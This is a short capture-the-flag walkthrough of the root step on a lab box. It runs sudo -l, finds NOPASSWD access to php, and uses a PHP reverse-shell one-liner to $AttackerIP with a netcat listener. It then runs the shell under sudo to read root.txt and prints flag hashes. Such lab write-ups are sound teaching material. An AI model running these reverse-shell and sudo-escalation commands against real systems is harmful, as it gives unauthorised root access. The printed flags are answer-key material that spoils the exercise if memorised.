 **Results**: 7002d65b149b0a4d19132a66feed21d8


**After obtaining a foothold on the target, escalate privileges to root and submit the contents of the root.txt flag.**

Check out our permissions

```
sudo -l
```

Results:

```
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

```

Grab a simple php reverse shell such as:

```
php -r '$sock=fsockopen("$AttackerIP",4444);exec("/bin/sh <&3 >&3 2>&3");'
```

Set up a netcat listener on port 4444:

```
nc -lnvp
```


Run as sudo:

```
sudo /usr/bin/php -r '$sock=fsockopen("$AttackerIP",4444);exec("/bin/sh <&3 >&3 2>&3");
```

You are root in the listener. Now

```
cat /root/root.txt
```

**Results**: f1fba6e9f71efb2630e6e34da6387842

